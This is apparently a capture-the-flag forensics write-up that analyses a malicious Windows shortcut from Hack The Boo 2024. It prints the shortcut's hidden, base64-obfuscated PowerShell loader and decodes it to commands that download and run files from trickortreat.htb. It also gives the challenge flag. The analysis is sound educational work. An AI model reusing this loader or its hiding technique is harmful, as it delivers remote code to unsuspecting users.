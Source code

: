 ```yaml
---
layout: default
title: The Shortcut Haunting
---
```


# [Hack The Boo 2024 - Practice](index.md) - Forensics - The Shortcut Haunting

> While going through your Halloween treats, a strange message appears: "Trick or Treat?" Curious, you click, and suddenly a mysterious .lnk file appears on your desktop. Now it's up to you to investigate this spooky shortcut and find out if it’s just a trick—or if it’s hiding a darker secret.

We are provided with a zip file containing a single file, which appears to be a Windows shortcut file.

The first thing I want to do with this file is run it through `strings`, just in case we can get an easy flag that way.

```sh
$ strings trick_or_treat.lnk
/C:\
Windows
System32
WindowsPowerShell
v1.0
powershell.exe
%SystemRoot%\System32\shell32.dll
1SPS
```

No luck.

Ok, lets analyze the file with `lnkinfo`. We can install this on Linux/WSL with the command `sudo apt install liblnk-utils`

```
$ lnkinfo  trick_or_treat.lnk
lnkinfo 20181227

Windows Shortcut information:
        Contains a link target identifier
        Contains a description string
        Contains a relative path string
        Contains a command line arguments string
        Contains an icon location string
        Contains an icon location block

Link information:
        Creation time                   : Not set (0)
        Modification time               : Not set (0)
        Access time                     : Not set (0)
        File size                       : 0 bytes
        Icon index                      : 70
        Show Window value               : 0x00000000
        Hot Key value                   : 0
        File attribute flags            : 0x00000000
        Description                     : Trick or treat
        Relative path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
        Command line arguments          : -WindowStyle hidden -NoExit -Command "$fko = 'aXdyIC1VcmkgaHR0cHM6Ly90cmlja29ydHJlYXQuaHRiL2Jvby5wZGYgLU91dEZpbGUgJGVudjpURU1QXCBEcm9wYm94IGJvby5wZGY7JGZsYWc9J0hUQnt0cjFja18wcl90cjM0dF9nMDNzX3dyMG5nfSc7U3RhcnQtUHJvY2VzcyAkZW52OlRFTVBcIERyb3Bib3ggYm9vLnBkZjtTdGFydC1TbGVlcCAtcyA1O2l3ciAtVXJpIGh0dHBzOi8vdHJpY2tvcnRyZWF0Lmh0Yi9jYW5keS5qcyAtT3V0RmlsZSAkZW52OlRFTVBcY2FjbmR5LmpzO1N0YXJ0LVByb2Nlc3MgJGVudjpURU1QXGNhbmR5LmpzO0V4aXQ=';$dwQWf = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($fko));Invoke-Expression -Command $dwQWf"9%ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
        Icon location                   : %SystemRoot%\System32\shell32.dll

Link target identifier:
        Shell item list
                Number of items         : 7

        Shell item: 1
                Item type               : Root folder
                Class type indicator    : 0x1f (Root folder)
                Shell folder identifier : 20d04fe0-3aea-1069-a2d8-08002b30309d
                Shell folder name       : My Computer

        Shell item: 2
                Item type               : Volume
                Class type indicator    : 0x2f (Volume)
                Volume name             : C:\

        Shell item: 3
                Item type               : File entry
                Class type indicator    : 0x31 (File entry: Directory)
                Name                    : Windows
                Modification time       : Not set (0)
                File attribute flags    : 0x00000010
                        Is directory (FILE_ATTRIBUTE_DIRECTORY)
        Extension block: 1
                Signature               : 0xbeef0004 (File entry extension)
                Long name               : Windows
                Creation time           : Not set (0)
                Access time             : Not set (0)

        Shell item: 4
                Item type               : File entry
                Class type indicator    : 0x31 (File entry: Directory)
                Name                    : System32
                Modification time       : Not set (0)
                File attribute flags    : 0x00000010
                        Is directory (FILE_ATTRIBUTE_DIRECTORY)
        Extension block: 1
                Signature               : 0xbeef0004 (File entry extension)
                Long name               : System32
                Creation time           : Not set (0)
                Access time             : Not set (0)

        Shell item: 5
                Item type               : File entry
                Class type indicator    : 0x31 (File entry: Directory)
                Name                    : WindowsPowerShell
                Modification time       : Not set (0)
                File attribute flags    : 0x00000010
                        Is directory (FILE_ATTRIBUTE_DIRECTORY)
        Extension block: 1
                Signature               : 0xbeef0004 (File entry extension)
                Long name               : WindowsPowerShell
                Creation time           : Not set (0)
                Access time             : Not set (0)

        Shell item: 6
                Item type               : File entry
                Class type indicator    : 0x31 (File entry: Directory)
                Name                    : v1.0
                Modification time       : Not set (0)
                File attribute flags    : 0x00000010
                        Is directory (FILE_ATTRIBUTE_DIRECTORY)
        Extension block: 1
                Signature               : 0xbeef0004 (File entry extension)
                Long name               : v1.0
                Creation time           : Not set (0)
                Access time             : Not set (0)

        Shell item: 7
                Item type               : File entry
                Class type indicator    : 0x32 (File entry: File)
                Name                    : powershell.exe
                Modification time       : Not set (0)
                File attribute flags    : 0x00000000
        Extension block: 1
                Signature               : 0xbeef0004 (File entry extension)
                Long name               : powershell.exe
                Creation time           : Not set (0)
                Access time             : Not set (0)



```

OK - the "command line arguments" section looks a bit suspicious...
```
-WindowStyle hidden -NoExit -Command "$fko = 'aXdyIC1VcmkgaHR0cHM6Ly90cmlja29ydHJlYXQuaHRiL2Jvby5wZGYgLU91dEZpbGUgJGVudjpURU1QXCBEcm9wYm94IGJvby5wZGY7JGZsYWc9J0hUQnt0cjFja18wcl90cjM0dF9nMDNzX3dyMG5nfSc7U3RhcnQtUHJvY2VzcyAkZW52OlRFTVBcIERyb3Bib3ggYm9vLnBkZjtTdGFydC1TbGVlcCAtcyA1O2l3ciAtVXJpIGh0dHBzOi8vdHJpY2tvcnRyZWF0Lmh0Yi9jYW5keS5qcyAtT3V0RmlsZSAkZW52OlRFTVBcY2FjbmR5LmpzO1N0YXJ0LVByb2Nlc3MgJGVudjpURU1QXGNhbmR5LmpzO0V4aXQ=';$dwQWf = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($fko));Invoke-Expression -Command $dwQWf"9%ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
```

Lets reformat this code to make it easier to figure out what it does.

```powershell
$fko = 'aXdyIC1VcmkgaHR0cHM6Ly90cmlja29ydHJlYXQuaHRiL2Jvby5wZGYgLU91dEZpbGUgJGVudjpURU1QXCBEcm9wYm94IGJvby5wZGY7JGZsYWc9J0hUQnt0cjFja18wcl90cjM0dF9nMDNzX3dyMG5nfSc7U3RhcnQtUHJvY2VzcyAkZW52OlRFTVBcIERyb3Bib3ggYm9vLnBkZjtTdGFydC1TbGVlcCAtcyA1O2l3ciAtVXJpIGh0dHBzOi8vdHJpY2tvcnRyZWF0Lmh0Yi9jYW5keS5qcyAtT3V0RmlsZSAkZW52OlRFTVBcY2FjbmR5LmpzO1N0YXJ0LVByb2Nlc3MgJGVudjpURU1QXGNhbmR5LmpzO0V4aXQ=';

$dwQWf = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($fko));

Invoke-Expression -Command $dwQWf"9%ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
```

So, the variable `fko` has a blob of what looks like base64 encoded text. The variable `dwQWf` decodes this text, and then `Invoke-Expression` runs it (so it's likely some powershell code), and inserts `"9%ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe` at the end (which maybe does something, or maybe is there to fool anyone who just opened the shortcut properties in Windows and scrolled to the end of the line and only noticed the fact that it appears to open Edge).

So lets decode the code in `fko`.

```powershell
aXdyIC1VcmkgaHR0cHM6Ly90cmlja29ydHJlYXQuaHRiL2Jvby5wZGYgLU91dEZpbGUgJGVudjpURU1QXCBEcm9wYm94IGJvby5wZGY7JGZsYWc9J0hUQnt0cjFja18wcl90cjM0dF9nMDNzX3dyMG5nfSc7U3RhcnQtUHJvY2VzcyAkZW52OlRFTVBcIERyb3Bib3ggYm9vLnBkZjtTdGFydC1TbGVlcCAtcyA1O2l3ciAtVXJpIGh0dHBzOi8vdHJpY2tvcnRyZWF0Lmh0Yi9jYW5keS5qcyAtT3V0RmlsZSAkZW52OlRFTVBcY2FjbmR5LmpzO1N0YXJ0LVByb2Nlc3MgJGVudjpURU1QXGNhbmR5LmpzO0V4aXQ=
```

```powershell
iwr -Uri https://trickortreat.htb/boo.pdf -OutFile $env:TEMP\ Dropbox boo.pdf;$flag='HTB{tr1ck_0r_tr34t_g03s_wr0ng}';Start-Process $env:TEMP\ Dropbox boo.pdf;Start-Sleep -s 5;iwr -Uri https://trickortreat.htb/candy.js -OutFile $env:TEMP\cacndy.js;Start-Process $env:TEMP\candy.js;Exit
```

This code would:
 - Download the file `boo.pdf` from the internet, saving it in the default "temp" folder. `iwr` is PowerShell shorthand for `Invoke-WebRequest`, which is powershell's version of `curl` - it's used to send HTTP requests to download files or send data to web servers.
 - The flag for this challenge is here - it doesn't affect this malicious code so we'll ignore it for now and mention it later.
 - Open the downloaded PDF for the user. The challenge description notes that a strange message appears, and this PDF is likely that message (in a real world scenario, this would probably be a ransomware message).
 - Waits 5 seconds
 - Downloads another file from the internet - `candy.js`, saving to the default temp folder
 - Runs the downloaded `candy.js` file, which would presumably start encrypting all your files (if your system is set up to be able to shell execute a ".js" file anyway).

Of course we also find the flag in this blob of code too - `HTB{tr1ck_0r_tr34t_g03s_wr0ng}`.